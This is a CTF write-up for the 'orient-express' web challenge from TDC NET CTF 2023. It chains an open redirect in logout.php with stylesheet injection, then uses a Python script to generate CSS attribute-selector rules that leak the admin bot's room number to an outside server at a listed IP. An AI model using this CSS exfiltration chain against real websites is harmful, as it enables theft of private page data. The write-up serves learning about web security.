```yaml
---
layout: post
title:  "TDC NET CTF 2023 - orient-express (+ revenge)"
date:   2023-09-09 16:17:42 +0200
categories: writeups
---
```

# Orient express

Given description:
```
At first we kind of wanted the CTF to be train themed, but its really not.

anyway here is another web challenge and this one is related to trains.

http://your-instance-ip:10006


*----------------------------------------------------

You arrive at the orient express.

There is 1 other passager, its the admin cat.

You must find his cabin and steal his flag.

Your booking number: **AZ921KVM**


------------------------------------------------------*

(This site is known to the admin cat as http://orientexpress.local:80, make the admin cat visit a link by going to https://your-instance-ip:10004)


Revenge incoming !
```

DOwnloading the source we can see a few things in the code.

`index.php`
```
<?php
$roomnumbers = [
    'AZ921KVM' => 'ROOM-2034',# Players room
    'XXXXXXXX' => 'ROOM-0000' # Bots room
];
```
Here we can see that our given booking number matched "ROOM-2034"

```
<a href="/admin.php" style="display: none;">Admin Check </a>
```
We can also see that there is an admin.php but its hidden.

Checking out admin php we can see that we are allowed to search for a room number every 10 minutes and if the room number exists then we get a flag.
`admin.php`

```
` // sample dictionary
    $roomnumbers = [
        '2034' => 'TDCNET{S0rry_this_flag_is_f4ke_You_need_to_get_the_stupid_admin_cats_room_number}',# Players room
        '0000' => 'TDCNET{f4k3_fl4g}' # Bots room
    ];

    $valueIn = $_POST['value'];
    $value = (string) $valueIn;
    $key =  $roomnumbers[$value];
    if ($key !== NULL) {
        echo "<br>The flag for the tenant in the room '".htmlspecialchars($value)."' is '$key'.";
    } else {
        echo "<br>There does not seem to be any tenants in the room: '".htmlspecialchars($value)."' ";
    }
}
```

So we can essentially see now that we have to get the right room number for the admin / bot somehow. but in the fixed version of the challenge (revenge) there is no xss vector.

So lets try to log in again and see what we have.

![](1png.png)

We see we have a `?next=` parameter, often times this is a result of an open redirect. in the code: `logout.php`

```
// handle the 'next' GET parameter for redirection
if (isset($_GET['next'])) {
    $next = $_GET['next'];
    header("Location: $next");
    exit;
```

![](2png.png)

Ok so we have an open redirect primitive here. But that won't help us yet.

Lets read the html of the logged in page

```


<!DOCTYPE html>
<html>
<head>
    <title>Train Car Room Number</title>
    <link rel="stylesheet" type="text/css" href="styles/styles.css"></head>
<body>
    <div class="container">
        <a href="/admin.php" style="display: none;">Admin Check </a>
        <p class="success">Your room number: </p> <a href="/image.php?room=ROOM-2034" class="roomnumber" >ROOM-2034</a><br><br><a href="/logout.php?next=index.php"> logout here</a>    </div>
</body>
</html>
```

So we see there is a stylesheet referenced as `href="styles/styles.css"`

if we change the parameter it changes also in the code 

![](3png.png)

So we can do css injection and change the stylesheet, by utilizing the open redirect like so

https://orient-express.local:80/index.php?style=../logout.php?next=https://google.com 

Which we can point at our server hosting css

![](4png.png)

But what can we use this for?

### **CSS ATTRIBUTE SELECTORS TO THE HELP**

So we can actually conditionally style  `<a>` tags in CSS based on their attributes.

Say you want to style an `<a>` tag different if its pdf or html? You can do so by:

```
a[href$=".pdf"] {
  background: url('pdf-icon.png') no-repeat;
  padding-left: 20px;
}
```

soooo what if we want to style the `<a>` tag based on the room number?

```
a[href="/image.php?room=ROOM-2034"] {
  color: red;
}

a[href="/image.php?room=ROOM-2035"] {
  color: blue;
}

a[href="/image.php?room=ROOM-2036"] {
  color: green;
}
```
We can also wildcard the start of the tag and just test the ending:

so just testing the end of the tag being 9997
```
a[href$="9997"]{
    color: blue;
}
```

Instead of beautiful colors we can also just reference an external resource? Like so:

```
a[href$="9997"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9997});
}
a[href$="9998"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9998});
}
a[href$="9999"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9999});
}
```

So we just need to create a script that will take all the possible room numbers (0000-9999) and create different css stylings depending on the number, to leak the room number.

```python
for i in range(1000,10000):
    print('a[href$="'+str(i)+'"]{\n    background: url(http://134.209.176.239:8000/aaa/log?pin=ROOM+'+str(i)+'});\n}')
```

which will generate the above css, lets call it `lol.css`

so now we need to host the `lol.css` on some vps, mine is: 134.209.176.239

Now we craft a url and send it to the admin cat

`http://orientexpress.local:80/index.php?style=../logout.php?next=http://134.209.176.239:8000/lol.css`


And we get the following 

![](5png.png)

and we get the room number of the stupid admin cat and can put it into the admin.php to get the flag

![](6png.png)



________________


We had to make a revenge challenge because I forgot to sanitize one point in the admin page that then allowed for xss lol.



